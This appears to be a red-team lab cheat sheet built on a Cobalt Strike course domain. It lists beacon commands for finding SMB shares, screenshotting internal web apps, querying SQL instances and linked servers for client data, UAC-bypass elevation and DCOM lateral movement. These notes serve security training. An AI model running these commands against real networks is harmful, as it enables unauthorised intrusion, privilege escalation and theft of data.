 ###### <font style="color:#00b3ff">File Shares</font> 
```
- Find-DomainShare will find SMB shares in a domain and -CheckShareAccess will only display those that the executing principal has access to:
	beacon> powershell Find-DomainShare -ComputerDomain cyberbotic.io -CheckShareAccess
```

###### <font style="color:#00b3ff">Internal Web Apps</font> 
```
- EyeWitness is a tool capable of identifying (and taking screenshots of) web apps from a list of targets:

	root@kali:/opt/EyeWitness/Python# proxychains4 ./EyeWitness.py --web -f /root/targets.txt -d /root/dev --no-dns --no-prompt

	PS C:\Users\Administrator\Desktop> pscp -r root@kali:/root/dev .
```

###### <font style="color:#00b3ff">Databases</font> 
```
- PowerUpSQL Get-SQLColumnSampleDataThreaded, can search one or more instances for databases that contain particular keywords in the column names:
	beacon> powershell Get-SQLInstanceDomain | Get-SQLConnectionTest | ? { $_.Status -eq "Accessible" } | Get-SQLColumnSampleDataThreaded -Keywords "project" -SampleSize 5 | select instance, database, column, sample | ft -autosize

- This can only search the instances you have direct access to, it won't traverse any SQL links. To search over the links use Get-SQLQuery:
	beacon> powershell Get-SQLQuery -Instance "srv-1.dev.cyberbotic.io,1433" -Query "select * from openquery(""sql-1.cyberbotic.io"", 'select * from information_schema.tables')"

	beacon> powershell Get-SQLQuery -Instance "srv-1.dev.cyberbotic.io,1433" -Query "select * from openquery(""sql-1.cyberbotic.io"", 'select column_name from master.information_schema.columns')"

	beacon> powershell Get-SQLQuery -Instance "srv-1.dev.cyberbotic.io,1433" -Query "select * from openquery(""sql-1.cyberbotic.io"", 'select top 5 OrgNumber from master.dbo.VIPClients')
```

###### <font style="color:#00b3ff">Elevate Kit</font> 
```
- After we've loaded elevate.cna:
	beacon> elevate
	beacon> elevate uac-schtasks tcp-local
```

###### <font style="color:#00b3ff">Jump and Remote-Exec</font> 
```
- Invoke DCOM:
	beacon> jump dcom srv-1 smb
```

- Malleable C2 profiles: used for network artifacts, customizing HTTP traffic

---


